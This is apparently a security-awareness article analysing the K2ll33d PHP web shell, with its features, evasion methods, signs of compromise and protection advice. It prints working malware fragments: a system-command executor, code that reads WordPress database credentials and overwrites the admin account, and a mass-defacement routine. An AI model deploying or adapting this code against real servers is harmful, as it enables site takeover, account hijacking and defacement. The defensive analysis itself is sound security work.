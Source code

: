 # K2ll33d Shell: Analysis of a Hacking Tool 🛡️🔍

> ⚠️ **Warning:** This article is for educational purposes and security awareness only. The information provided should be used solely to protect systems and respond to security incidents in an ethical and legal manner.

## What is K2ll33d Shell? 🤔

K2ll33d Shell is an advanced PHP web shell used by attackers to remotely control compromised web servers. Unlike simpler shells, this malware offers a complete graphical interface and numerous functionalities that facilitate the exploitation of vulnerable systems.

## Key Features 🔑

- 🖥️ **Graphical interface:** Design with menus, forms, and CSS styles
- 📂 **File navigation:** Complete exploration of the file system
- 💻 **Command execution:** Terminal to execute system commands
- 🔌 **CMS tools:** Specific functions for WordPress and Joomla
- 🌐 **Remote connections:** Bind shell, reverse shell, and Metasploit connection
- 🔨 **Hacking tools:** Symlinker, mass defacer, brute forcer, etc.

## How K2ll33d Shell Works 🔄

The analyzed code is an extensive PHP script (over 2000 lines) that implements multiple malicious functionalities. When loaded on a compromised server, it provides a web interface from which the attacker can control the system.

> 💡 **Basic operation:** The shell is loaded onto the server through vulnerabilities such as SQL injection, unvalidated file uploads, or compromised credentials. Once installed, the attacker accesses it through a web browser.

## Using K2ll33d Shell (Technical Analysis) 🔬

The code begins with basic functions for manipulating files and executing commands:

```php
// Function to execute system commands
function exe($cmd) {
    if(function_exists('system')) {
        @ob_start();
        @system($cmd);
        $buff = @ob_get_contents();
        @ob_end_clean();
        return $buff;
    } elseif(function_exists('exec')) {
        @exec($cmd,$results);
        $buff = "";
        foreach($results as $result) {
            $buff .= $result;
        } 
        return $buff;
    } elseif(function_exists('passthru')) {
        // Alternative code...
    }
}
```

The shell implements multiple modules accessible from its main menu:

1. 📁 **File Explorer:** Allows navigation through the file system, creating, editing, deleting, and downloading files.
2. 🖲️ **Shell:** Provides a terminal to execute system commands.
3. 📤 **Upload:** Allows uploading files to the server from the local machine or from remote URLs.
4. 🔗 **Symlinker:** Creates symbolic links to access files outside the web directory.
5. 📝 **Eval PHP:** Executes arbitrary PHP code on the server.
6. 📡 **Remote Connection:** Establishes bind shell or reverse shell connections.
7. 🗄️ **MySQL Manager:** Interface for managing MySQL databases.
8. 🧨 **Mass Defacer:** Modifies multiple files simultaneously.
9. 🔓 **Brute Force:** Attacks services like FTP or cPanel using brute force.
10. 🎯 **Joomla/WordPress Tools:** Specific tools to compromise these CMS.

## Example of Use: Changing WordPress Credentials 🔐

The code includes a function to change WordPress admin credentials:

```php
// Simplified fragment of the code
if ($_POST['kill']) {
    $url = $_POST['url'];
    $user = $_POST['user'];
    $pass = $_POST['pass'];
    $pss = md5($pass);
    
    // Extract configuration information
    $config = file_get_contents($url);
    $password = enter($config,"define('DB_PASSWORD', '","');");
    $username = enter($config,"define('DB_USER', '","');");
    $db = enter($config,"define('DB_NAME', '","');");
    $prefix = enter($config,'$table_prefix  = \'',"';");
    $host = enter($config,"define('DB_HOST', '","');");
    
    // Connect to the database
    $conn = @mysql_connect($host,$username,$password);
    @mysql_select_db($db,$conn);
    
    // Update admin credentials
    $query = mysql_query("UPDATE `".$prefix."users` SET `user_login` = '".$user."',`user_pass` = '".$pss."' WHERE `ID` = 1");
}
```

## Evasion Techniques 🥷

K2ll33d Shell implements several techniques to evade detection:

- 🔄 Use of multiple alternative functions when the main ones are disabled
- 🛡️ Ability to operate in PHP's "safe_mode"
- 🔒 Obfuscation of parts of the code using base64
- 📡 Communication with external servers controlled by the attacker

## Signs of Compromise 🚩

The following indicators may suggest that a server has been compromised with this web shell:

- 📄 Suspicious PHP files with random names or that attempt to appear legitimate
- 🔄 Unexpected modifications to system files
- 📶 Unusual network traffic to unknown IP addresses
- 📈 Unexplained increase in server resource usage
- 👤 New administrator accounts or changes in existing user permissions

## Protection Measures 🛡️

- 🔄 Keep all software updated (CMS, plugins, themes)
- 🔑 Implement robust password policies and two-factor authentication
- 🔒 Configure restrictive permissions on the file system
- 🧱 Use Web Application Firewall (WAF)
- 👁️ Monitor file integrity with tools like Tripwire
- ⛔ Disable dangerous PHP functions like `system()`, `exec()`, `shell_exec()`
- 💾 Regularly create and verify backups

> ⚠️ **Important:** If you discover this type of code on your server, you should consider it compromised. Isolate the server, preserve evidence, remove the malware, restore from clean backups, and change all credentials before putting the system back into production.

## Advanced Functionality Analysis 🔬

The shell contains several sophisticated modules for attacking different systems:

```php
// Mass defacement function
elseif(isset($_GET['x']) && ($_GET['x'] == 'mass')){
    error_reporting(0);
    ?><center><br><br><div class="mybox"><h2 class="k2ll33d2">Folder Mass Defacer</h2>
    <center/><br><center><form ENCTYPE="multipart/form-data" action="<?$_SERVER['PHP_SELF']?>" method=post>
    Folder :<br/><input class="inputz" typ=text name=path size=60 value="<?=getcwd();?>">
    <br>File Name :<br/><input class="inputz" typ=text name=file size=60 value="index.php">
    <br>index URL :<br/><input class="inputz" typ=text name=url size=60 value="">
    <br><input class="inputzbut" type=submit value=Deface></form></div></center>
    <?php @error_reporting(0);
    $mainpath=$_POST[path];
    $file=$_POST[file];
    $indexurl=$_POST[url];
    echo "<br>";
    $dir=opendir("$mainpath");
    while($row=readdir($dir)){
        $start=@fopen("$row/$file","w+");
        $code=@file_get_contents($indexurl);
        $finish=@fwrite($start,$code);
        if ($finish){
            echo "&#187; $row/$file  &#187; Done<br><br>";
        }
    }
}
```

## Conclusion 📝

K2ll33d Shell represents a significant threat to web servers due to its versatility and powerful capabilities. Understanding how this malicious tool works is essential for implementing effective protection measures and responding appropriately to security incidents.

---

### SEO Keywords 🔍
```
K2ll33d Shell, PHP malware, web security, hacking tool, server protection, WordPress security, web shell detection
```

### Meta Description 📋
```
Discover how K2ll33d Shell works, its dangerous capabilities, and essential protection measures to secure your web servers against this sophisticated PHP malware.
```
